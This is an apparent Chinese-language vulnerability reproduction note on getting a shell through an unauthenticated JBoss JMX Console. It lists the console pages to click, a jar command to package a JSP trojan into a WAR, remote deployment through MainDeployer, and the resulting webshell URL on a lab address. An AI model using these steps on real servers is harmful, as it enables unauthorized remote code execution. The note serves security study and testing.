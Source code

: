 ```yaml
---
title: JBoss JMX Console未授权访问Getshell
id: zhfly2979
---
```


# JBoss JMX Console未授权访问Getshell

## 一、漏洞简介

## 二、漏洞影响

全版本

## 三、复现过程

先输入[http://172.26.1.167:8080/jmx](http://172.26.1.167:8080/jmx-console/)-console/[null](http://172.26.1.167:8080/jmx-console/)[-console/](http://172.26.1.167:8080/jmx-console/)进入到页面

*   先点击[jboss.system](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=displayMBeans&filter=jboss.system),然后点击[service=MainDeployer](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system%3Aservice%3DMainDeployer)

![image](../img/79e81c8da85a648b6b642ee89004160f.png)

> 创建一个war包

先准备好一个jsp的木马,然后打开cmd创建,输入命令:jar -cvf zfsn.war(你要创建war的名字，可随意填) zfsn. jsp

![image](../img/4d200ba5bb21b151d388a2a68d7864c5.png)

我们找到methodIndex为17 or 19的deploy，把远程的war包填入进去，进行远程war包的部署

![image](../img/11c44af543e3a568947fe4f203075c3f.png)

部署完成之后,我们的木马地址为[http://172.26.1.167/zfsn/zfsn.jsp](http://172.26.1.167/zfsn/zfsn.jsp)

![image](../img/054bac89b25542bd7cc3c6242eda00c7.png)